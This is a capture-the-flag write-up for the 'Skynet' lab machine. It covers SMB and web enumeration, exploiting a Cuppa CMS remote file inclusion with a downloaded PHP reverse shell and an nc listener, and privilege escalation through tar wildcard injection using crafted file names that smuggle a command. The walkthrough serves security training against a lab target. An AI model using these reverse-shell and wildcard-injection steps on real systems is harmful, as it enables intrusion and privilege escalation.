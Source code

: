 # Skynet

```
nmap 10.10.11.149
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 21-50-52.png>)

### **What is Miles password for his emails?**

```bash
smbclient -N -L //10.10.11.149
smbclient -N //10.10.11.149/anonymous
smb: \> get logs\log1.txt
smb: \> exit
cat log1.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 21-52-45.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-14 22-27-12.png>)

```
gobuster dir -u http://10.10.11.149/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 22-28-31.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-14 22-24-29.png>)

### **What is the hidden directory?**

![](<../../.gitbook/assets/Screenshot from 2020-09-14 22-29-18.png>)

```bash
smbclient //10.10.11.149/milesdyson -U milesdyson
smb: \> get notes\important.txt
smb: \> exit
cat important.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 22-32-02.png>)

### **What is the vulnerability called when you can include a remote file for malicious purposes?**

{% hint style="success" %}
remote file inclusion
{% endhint %}

### What is the user flag?

```
gobuster dir -u http://10.10.11.149/45kra24zxs28v3yd/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 22-44-58.png>)

```
searchsploit -w cuppa 
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 22-56-26.png>)

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
vim php-reverse-shell.php
# $ip = '10.9.101.193';
# $port = 4444;
sudo python3 -m http.server 80
```

```
nc -nvlp 4444
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ cat /home/milesdyson/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 23-03-24.png>)

### **What is the root flag?**

```
cat /etc/crontab
cat /home/milesdyson/backups/backup.sh
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 23-40-46.png>)

```bash
touch '/var/www/html/--checkpoint=1'
touch '/var/www/html/--checkpoint-action=exec=sh shell.sh'
echo -e '#/bin/bash\ncat /root/root.txt > /tmp/root.txt' > /var/www/html/shell.sh
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 23-41-56.png>)

```bash
cat /tmp/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-14 23-41-56 (copy).png>)

## :link: Support Material

{% embed url="https://www.exploit-db.com/exploits/25971" %}

{% embed url="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" %}

{% embed url="https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/" %}

